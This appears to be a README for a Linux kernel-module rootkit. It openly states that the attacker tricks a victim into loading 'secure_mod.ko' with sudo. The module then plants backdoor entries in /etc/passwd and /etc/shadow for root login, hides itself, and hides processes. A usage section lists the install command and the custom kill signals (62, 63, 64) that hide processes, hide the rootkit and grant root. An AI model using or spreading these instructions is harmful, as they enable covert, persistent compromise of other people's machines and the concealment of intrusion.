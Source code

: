 <h1>Linux Rootkit</h1>
<h3>Attacker should first trap victim into installing the rootkit by "sudo insmod secure_mod.ko". After that, the rootkit will add a backdoor for attacker by insert a line in both /etc/passwd and /etc/shadow. Then the attacker could login to victim's linux machine and get root priviledge to do some evil things. The rootkit will also hide itself and can hide a process by its pid.</h3>
<h1>Usage</h1>
- <h3>Install</h3>
```
sudo insmod secure_mod.ko
```

- <h3>Hide/Unhide a Process</h3>
```
kill -62 pid
```

- <h3>Hide/Unhide rootkit</h3>
```
kill -63 0
```

- <h3>Get Root Priviledge</h3>
```
kill -64 0
```

- <h3>Uninstall</h3>
<h4>First unhide the rootkit by signal 63 then remove it by</h4>

```
sudo rmmod secure_mod
```
